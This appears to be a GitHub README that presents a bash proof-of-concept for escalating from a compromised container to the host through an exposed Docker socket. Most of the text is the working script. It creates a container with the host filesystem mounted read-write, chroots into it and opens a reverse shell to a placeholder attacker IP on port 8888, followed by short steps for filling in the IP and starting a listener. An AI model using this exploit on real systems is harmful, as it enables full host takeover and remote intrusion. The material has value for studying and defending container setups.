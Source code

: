 # Docker.sock-environment-takeover
![](https://github.com/Hritish42/docker.sock-environment-takeover/blob/main/Images/Docker.Socks.png?raw=true)

/var/run/docker.sock could lead to full environment takeover. (Privilege Escalation)

I've written a bash script to automate things written in this article. 

## Proof of Concept
To run this, you have to already have RCE on a container. Even with RCE, most of the time you will not have access to a docker client and installing a docker client might not be possible.

```bash
#!/bin/bash
pay="bash -c 'bash -i >& /dev/tcp/<Attacker-ipaddr>/8888 0>&1'"
payload="[\"/bin/sh\",\"-c\",\"chroot /mnt sh -c \\\"$pay\\\"\"]"
response=$(curl -s -XPOST --unix-socket /var/run/docker.sock -d "{\"Image\":\"sandbox\",\"cmd\":$payload, \"Binds\": [\"/:/mnt:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create)
revShellContainerID=$(echo "$response" | cut -d'"' -f4)
curl -s -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/$revShellContainerID/start
sleep 1
curl --output - -s --unix-socket /var/run/docker.sock "http://localhost/containers/$revShellContainerID/logs?stderr=1&stdout=1"
````
- Add the attacker ip address to above bash script 
- Start a listener on attacker machine on port 8888. 
- Check the screenshots if you don't understand.

![](https://github.com/Hritish42/docker.sock-environment-takeover/blob/main/Images/poc1.png?raw=true)
![](https://github.com/Hritish42/docker.sock-environment-takeover/blob/main/Images/poc2.png?raw=true)


### References
https://dejandayoff.com/the-danger-of-exposing-docker.sock/
